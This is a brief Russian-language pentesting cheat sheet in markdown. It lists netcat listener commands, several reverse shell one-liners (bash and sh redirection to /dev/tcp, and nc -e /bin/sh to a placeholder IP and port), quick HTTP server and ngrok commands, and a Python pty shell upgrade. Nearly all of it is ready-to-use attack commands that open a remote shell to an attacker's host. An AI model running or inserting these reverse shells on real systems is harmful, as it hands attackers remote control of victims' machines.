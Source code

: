 # NetCat

слушать порт:
```bash
nc -lvnp {port}
```
подключиться к прослушиваемому порту:
```bash
bash -i >& /dev/tcp/{IP}/{port} 0>&1
```
или
```sh
sh -i >& /dev/tcp/{IP}/{port} 0>&1
```
или
```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/{your_listeniing_port} 0>&1"
```
## Reverse shell

- В консоли введите команду:
```bash
nc -nlvp {port}
```

- Чтобы соединиться с удаленного узла введите команду:
```bash
nc -e /bin/sh {IP} {port}
```

Реверс-шелл можно также организовать при помощи команды:
```bash
reverse_shell_listener {port}
```
# Create server
php
```bash
php -S {ip}:{port}
```
python
```bash
python3 -m http.server {port}
```
ngrok
```bash
// в одном терминале сначала поднимается сервер
php -S 127.0.0.1:1234
```

```bash
// в другом ngrok
ngrok http 9001
```
# Upadate shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
